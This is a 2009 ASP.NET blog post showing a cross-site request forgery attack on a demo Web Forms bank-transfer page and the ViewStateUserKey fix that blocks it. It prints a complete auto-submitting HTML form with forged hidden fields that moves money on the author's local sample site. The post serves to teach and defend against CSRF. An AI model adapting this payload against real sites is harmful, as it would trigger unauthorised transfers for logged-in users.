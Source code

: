 ```yaml
---
title: CSRF Attacks and Web Forms
date: 2009-04-02 -0800
disqus_identifier: 18606
categories: [aspnet security]
redirect_from: "/archive/2009/04/01/csrf-webforms.aspx/"
---
```


In [my last blog
post](https://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx "Anatomy of a CSRF attack"),
I walked step by step through a [Cross-site request
forgery](http://en.wikipedia.org/wiki/CSRF "CSRF on Wikipedia") (CSRF)
attack against an ASP.NET MVC web application. This attack is the result
of how browsers handle cookies and cross domain form posts and is not
specific to any one web platform. Many web platforms thus include their
own mitigations to the problem.

It might seem that if you’re using Web Forms, you’re automatically safe
from this attack. While Web Forms has many mitigations turned on by
default, it turns out that it does not automatically protect your site
against this specific form of attack.

In the same [sample bank transfer
application](http://code.haacked.com/mvc-2/CsrfDemo.zip "Bank Transfer CSRF Demo")
I provided in the last post, I also included an example written using
Web Forms which demonstrates the CSRF attack. After you log in to the
site, you can navigate to `/BankWebForm/default.aspx` to try out the Web
Form version of the transfer money page. it works just like the MVC
version.

To simulate the attack, make sure you are running the sample application
locally and make sure you are logged in and then click on
[https://haacked.com/demos/csrf-webform.html](http://demo.haacked.com/security/csrf-webform.html "CSRF for Web Form Demo").

Here’s the code for that page:

```csharp
<html xmlns="http://www.w3.org/1999/xhtml" >
<head>
    <title></title>
</head>
<body>
  <form name="badform" method="post"
    action="http://localhost:54607/BankWebForm/Default.aspx">
    <input type="hidden" name="ctl00$MainContent$amountTextBox"
      value="1000" />
    <input type="hidden" name="ctl00$MainContent$destinationAccountDropDown"
      value="2" />
    <input type="hidden" name="ctl00$MainContent$submitButton"
      value="Transfer" />
    <input type="hidden" name="__EVENTTARGET" id="__EVENTTARGET"
      value="" />
    <input type="hidden" name="__EVENTARGUMENT" id="__EVENTARGUMENT"
      value="" />
    <input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE"
      value="/wEP...0ws8kIw=" />
    <input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION"
      value="/wEWBwK...+FaB85Nc" />
    </form>
    <script type="text/javascript">
        document.badform.submit();
    </script>
</body>
</html>
```

It’s a bit more involved, but it does the trick. It mocks up all the
proper hidden fields required to execute a bank transfer on my silly
demo site.

The mitigation for this attack is pretty simple and described thoroughly
in this [this article by Dino
Esposito](http://msdn.microsoft.com/en-us/library/ms972969.aspx "Take Advantage of ASP.NET Built-in Features to Fend Off Web Attacks")
as well as this [post by Scott
Hanselman](http://www.hanselman.com/blog/ViewStateUserKeyMakesViewStateMoreTamperresistant.aspx%20 "ViewState").
The change I made to my code behind based on Dino’s recommendation is
the following:

```csharp
protected override void OnInit(EventArgs e) {
  ViewStateUserKey = Session.SessionID;
  base.OnInit(e);
}
```

With this change in place, the CSRF attack I put in place no longer
works.

When you go to a real bank site, you’ll learn they have all sorts of
protections in place above and beyond what I described here. Hopefully
this post and the previous one provided some insight into why they do
all the things they do. :)
